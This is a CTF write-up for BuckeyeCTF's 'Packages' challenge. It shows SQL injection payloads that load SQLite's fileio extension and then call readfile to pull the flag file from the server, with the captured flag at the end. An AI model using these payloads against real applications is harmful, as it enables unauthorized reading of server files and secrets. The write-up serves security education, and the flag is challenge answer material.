

# BuckeyeCTF - Packages

#### Challenge Description
>Explore the world of debian/debian-based packages.
>
>[https://packages.challs.pwnoh.io](https://packages.challs.pwnoh.io)


[!button icon="download" text="packages.zip"](../files/packages.zip)

## Solution



We are given a database of Debian distros and packages, with a search functionality.
It is simple to check for SQL injection and see that it works.

On the server file, we can see that SQLite3 is used with load_extension enabled:

```python
db = sqlite3.connect("packages.db", check_same_thread=False)
db.enable_load_extension(True)
```

We can load the fileio extensnion (an extension for SQLite that provides file I/O capabilities) to read files from the server:

```
?distro=" UNION SELECT load_extension('/sqlite/ext/misc/fileio'),2,3,4--
```

And use it to read the flag file:

```
?distro=" UNION SELECT readfile('flag.txt'),2,3,4--
```

Note: You can execute `readfile` only after loading the extension.


#### Flag

`bctf{y0uv3_g0t_4n_apt17ud3_f0r_7h15}`